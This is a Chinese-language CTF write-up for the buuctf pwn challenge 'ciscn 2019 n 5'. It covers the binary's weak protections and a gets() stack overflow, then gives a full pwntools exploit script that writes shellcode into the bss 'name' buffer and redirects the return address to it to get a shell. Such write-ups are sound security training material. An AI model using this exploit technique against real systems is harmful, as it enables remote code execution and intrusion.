 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 5
date: 2022-3-22 16:17:03
permalink: /pages/2e1547494524d18a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}
```



## 思路分析

1. 目前信息：
   - `main`函数内明显的栈溢出漏洞
   - No PIE
   - 有`RWX`权限
1. 补充：
   - `name`变量在`bss`段长度为0x64字节

3. 思路：
   - 可栈溢出，有`RWX`权限，考虑在`name`变量处写入`shellcode`，返回溢出劫持返回地址到该处以获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
io = remote('node4.buuoj.cn', 28134)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
bss_name = 0x601080
shellcode = asm(shellcraft.sh())
payload = flat([shellcode])
io.sendlineafter(' name\n', payload)
payload = flat(['a'*padding, bss_name])
io.sendlineafter(' to me?\n', payload)
io.interactive()
```